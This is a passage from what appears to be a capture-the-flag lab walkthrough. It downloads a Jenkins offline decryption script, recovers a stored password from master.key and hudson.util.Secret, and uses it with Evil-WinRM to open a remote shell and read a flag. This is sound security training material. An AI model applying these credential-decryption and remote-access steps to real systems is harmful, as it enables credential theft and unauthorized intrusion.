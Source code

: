     oxdf@hacky$ wget https://raw.githubusercontent.com/gquere/pwn_jenkins/master/offline_decryption/jenkins_offline_decrypt.py
    --2022-02-27 18:47:56--  https://raw.githubusercontent.com/gquere/pwn_jenkins/master/offline_decryption/jenkins_offline_decrypt.py
    Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 2606:50c0:8000::154, 2606:50c0:8001::154, 2606:50c0:8002::154, ...
    Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 6875 (6.7K) [text/plain]
    Saving to: ‘jenkins_offline_decrypt.py’
    
    jenkins_offline_decrypt.py                           100%[=====================================================================================================================>]   6.71K  --.-KB/s    in 0s      
    
    2022-02-27 18:47:57 (14.0 MB/s) - ‘jenkins_offline_decrypt.py’ saved [6875/6875]
    
    oxdf@hacky$ python jenkins_offline_decrypt.py 
    Usage:
            jenkins_offline_decrypt.py <jenkins_base_path>
    or:
            jenkins_offline_decrypt.py <master.key> <hudson.util.Secret> [credentials.xml]
    or:
            jenkins_offline_decrypt.py -i <path> (interactive mode)
    oxdf@hacky$ python jenkins_offline_decrypt.py master.key hudson.util.Secret config.xml 
    c1cdfun_d2434
    

Either way, the password is “c1cdfun_d2434”.

### WinRM

Before logging into Jenkins, I’ll try this password over [Evil-
WinRM](https://github.com/Hackplayers/evil-winrm):

    
    
    oxdf@hacky$ evil-winrm -i 10.10.11.132 -u oliver -p c1cdfun_d2434
    
    Evil-WinRM shell v3.3
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\oliver\Documents>
    

It works!

I can grab `user.txt` as well:

    
    
    *Evil-WinRM* PS C:\Users\oliver\desktop> type user.txt
    30a27c61************************
    

## Shell as smith
